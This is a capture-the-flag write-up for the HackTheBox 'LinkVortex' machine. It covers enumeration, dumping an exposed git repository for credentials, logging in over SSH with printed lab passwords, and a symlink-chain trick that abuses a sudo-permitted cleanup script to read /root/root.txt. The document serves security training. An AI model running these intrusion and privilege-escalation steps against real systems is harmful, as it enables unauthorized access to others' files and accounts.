
> LinkVortex is a super cool machine that taught me that any information found in an enumeration can always be used elsewhere.

## Enumeration

We start with an nmap scan



We have 02 ports open SSH and HTTP ports


**Web Enumeration**





Content of http://linkvortex.htb/robots.txt

```
User-agent: *
Sitemap: http://linkvortex.htb/sitemap.xml
Disallow: /ghost/
Disallow: /p/
Disallow: /email/
Disallow: /r/
```



**Subdomain Enumeration via VHost**







We dump the git reponse on web site using: https://github.com/arthaud/git-dumper




```sh
grep -R 'const password' *
```



Remember during the enumeration of the `linkvortex.htb` domain we discover the admin username on the `sitemap.xml` file

```
username: admin@linkvortex.htb
password: OctopiFociPilfer45
```




Search for version vulnerability







```
username: bob@linkvortex.htb,
password: fibber-talented-worth
```

```sh
└─$ ssh bob@linkvortex.htb
bob@linkvortex.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Apr  7 08:15:44 2025 from 10.10.14.54
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Content of `clean_symlink.sh` file

```sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Exploitation

```sh
bob@linkvortex:~$ ln -s /root/root.txt flag.txt
bob@linkvortex:~$ ln -s /home/bob/flag.txt access.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/access.png
```



This what happend when we call `access.png`

```sh
bob@linkvortex:~$ ll access.png flag.txt
lrwxrwxrwx 1 bob bob 18 Apr  7 08:28 access.png -> /home/bob/flag.txt
lrwxrwxrwx 1 bob bob 14 Apr  7 08:23 flag.txt -> /root/root.txt

# access.png -> flag.txt -> root.txt
```